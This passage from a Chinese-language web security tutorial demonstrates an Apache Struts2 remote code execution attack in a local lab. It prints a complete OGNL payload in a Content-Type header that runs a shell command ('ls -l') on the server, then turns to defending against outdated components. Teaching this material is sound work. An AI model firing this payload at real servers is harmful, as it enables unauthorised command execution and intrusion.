 ```plain
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

下面，我们给它添加一个Content-Type请求头，并将包含multipart/form-data字符串的恶意payload作为它的值。

```plain
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type: 
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls -l').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C7D2C0C8353A3D952C576487D42216E3
Connection: close
```

payload是一段OGNL语句，你可能看不懂它，不用担心，这里我们只需要知道，**在payload中cmd的值指定为** `ls -l`，这样就可以让Web应用执行 `ls -l` 命令，并将输出进行返回。将我们精心修改后的报文发送出去，你就可以看到页面响应内容变为如下：

![图片](https://static001.geekbang.org/resource/image/e0/48/e05c3ecbc4cbd553d856ba69c8bfb148.jpg?wh=579x425)

可以看到，我们注入的命令 `ls -l` 的结果已经返回在页面上，攻击成功。

到这里，你已经学习了易受攻击和过时组件会给Web应用造成的威胁，接下来我们来学习如何抵御组件不安全的问题。

## 防御方式

为了保证我们的Web应用不会因为组件问题，导致威胁的存在，我们需要了解开发的Web应用中所有的组件信息，然后对它们进行检查，判断其中是否有不安全的组件存在，如果存在就对它们进行限制或修改，解决安全隐患，同时持续关注这些组件的安全信息。
